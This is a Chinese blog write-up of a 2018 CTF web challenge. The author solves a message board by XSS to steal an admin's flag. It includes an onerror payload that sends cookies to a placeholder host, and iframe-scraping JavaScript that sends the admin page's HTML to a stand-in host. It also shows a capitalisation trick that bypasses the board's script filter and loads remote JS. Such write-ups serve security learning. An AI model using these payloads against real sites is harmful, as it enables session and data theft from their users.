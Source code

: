 ```yaml
---
title: 2018安恒杯二月赛-web-应该不是 XSS
comments: true
date: 2018-02-25 17:38:58
tags:
	- writeup
	- xss
categories:
	- 信息安全
	- writeup
keywords: 
	- writeup
	- xss
---
```

## 0x01 初步分析阶段

首先拿到题目，看到留言板，第一反应就是XSS。

但是看过题目提示后，有些不确定。

所以开始分析整道题目。

<!-- more -->

首先，观察network页面，查看主页面的响应。

发现是通过js进行子页面的渲染。类似于iframe。

一共有四个js文件，前两个明显是jQuery的库文件，不用管它，开始分析[main.js](https://img.5am3.com/main.js)与[app.js](https://img.5am3.com/app.js)

![mark](https://img.5am3.com/img/180225/jA3j6K7Lm3.png)


[main.js](https://img.5am3.com/main.js)很明显是渲染页面代码。

![mark](https://img.5am3.com/img/180225/lDLL3d8HJd.png)


通过代码可以发现，当我们构造`http://192.168.5.28/#login`

即可访问其他页面。大家常见的应该是通过php后端渲染这些，通过include去实现在当前模板下渲染页面。此时是通过前端渲染的。

在第七行可以看到一共有4个页面，即有以下页面

```
http://192.168.5.28/#login
http://192.168.5.28/#feedback
http://192.168.5.28/#main
http://192.168.5.28/#chgpass
```

然后再进行[app.js](https://img.5am3.com/app.js)的分析

可以明显看出是一个功能的控制，可以分析出有以下功能

```
登录：'./api.php?action=login&' + Math.random()
发送留言： './api.php?action=savepost&' + Math.random()
修改密码：'./api.php?action=chgpass&' + Math.random()
获取所有留言：'./api.php?action=getpost&' + Math.random()
```

## 0x02 进一步分析（XSS)

首先，依次访问以上页面，发现chgpass和main是需要登陆后才能访问。

而且main页面下有flag{}字样。

所以判断出，**题目要求你以管理员身份登录后，获取到main页面下的flag。**

![mark](https://img.5am3.com/img/180225/E4kAAdfkcD.png)

在登录页面尝试弱口令登录后，无果。于是又把思路转向了xss。

想着可不可以拿到管理员cookie。经过尝试后，发现他做了一些xss的防范

> 1.将script标签中间强行加入空格
>
> 2.在<与s之间强行加入空格
>
> 3.标题处有转义，无法xss
>
> 4.限制字符长度300

于是构造payload如下

`<img src='1' onerror="window.location.href='http://youhost/?'+document.cookie";>`

本地测试成功，然后发送，发现获取cookie为空，即服务器端可能做了[HttpOnly](https://www.cnblogs.com/zlhff/p/5477943.html)的限制。

所以此方法失败！！

然后尝试其他思路，想到了国赛的一道题目guestbook，已经xman排位赛的xss2。

通过构造js，来让管理员直接访问main页面，然后将其源码拖下来。

**首先通过js引入一个iframe，来访问main页面，然后通过js拿到iframe的源码，发送回来。**

此时遇到了一个问题，即iframe加载不完全，所以自己又添加了一个定时器。

最终代码如下

```
var iframe = document.createElement("iframe");
 iframe.src = "./#main";
 document.body.appendChild(iframe);
 iframe.onload = setInterval(function (){ 
 	var c = encodeURI(document.getElementsByTagName("iframe")[0].contentWindow.document.getElementsByTagName("body")[0].innerHTML);
  	var n0t = document.createElement("link");
 	n0t.setAttribute("rel", "prefetch");
 	n0t.setAttribute("href", "//yourhost/?a=" + c);
 	document.head.appendChild(n0t);
 },1000)

```

由于代码超过了可以发送文本的长度，所以想办法采用其他方式，如外部引入js。

引入这里，自己采用的是在xss平台上面学到的一句话

`<img src=x onerror="s=createElement('script');body.appendChild(s);s.src='你的js地址';">`

此时由于存在script，所以得绕过一下，自己采用的是大小写绕过。将其改为下面代码即可。

`<img src=x onerror="s=createElement('Script');body.appendChild(s);s.src='你的js地址';">`

然后进行多次提交。即可收到打回来的代码。

![mark](https://img.5am3.com/img/180225/2031km43gh.png)

最后进行url解码后即可拿到flag

## 0x03 总结

题目还是蛮有意思的，主办方给的hint是csrf。

自己想了想，完全可以打源码，拿到管理员token后，然后通过构造csrf去修改管理员密码，然后登陆。

貌似自己的是非预期解法，毕竟登陆页面和修改密码页面都没有用到，而且自己这个也不算csrf。

成功的用xss再次解出一道题。

## 参考资料

- [HttpOnly](https://www.cnblogs.com/zlhff/p/5477943.html)
- [XMAN排位赛xss题解](https://www.xctf.org.cn/library/details/eea49ee57a63f91de4ae9fa58b45f4aec9858dd5/)
- [国赛writeup链接](https://bbs.ichunqiu.com/thread-25351-1-1.html)-guestbook
- [app.js](https://img.5am3.com/app.js)
- [main.js](https://img.5am3.com/main.js)
- [XSS平台](http://webxss.top)